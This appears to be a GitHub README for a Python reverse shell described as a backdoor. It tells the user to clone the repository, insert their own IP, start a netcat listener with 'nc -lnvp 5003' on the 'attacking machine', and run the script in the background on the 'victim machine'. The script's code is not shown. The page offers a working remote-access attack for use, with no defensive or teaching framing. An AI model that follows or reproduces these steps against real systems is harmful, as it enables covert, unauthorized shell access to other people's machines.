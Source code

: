 ## ReverseShell | written in python3

- A python backdoor/reverseshell.
- You need to change the ip for your own usage.

![backd](https://raw.githubusercontent.com/Keyj33k/profiles/main/profile/backd_profile.jpeg)

## How to use?

Clone the repo:
```
git clone https://github.com/Keyj33k/ReverseShell.git
```

After successful cloning:
```
cd ReverseShell
```

Now you need to change the ip in the script!

After saving your custom backdoor you can test it:

- On the attacking machine:
```
nc -lnvp 5003
```
- On the vivtim machine:
```
python3 reverseshell.py &
```

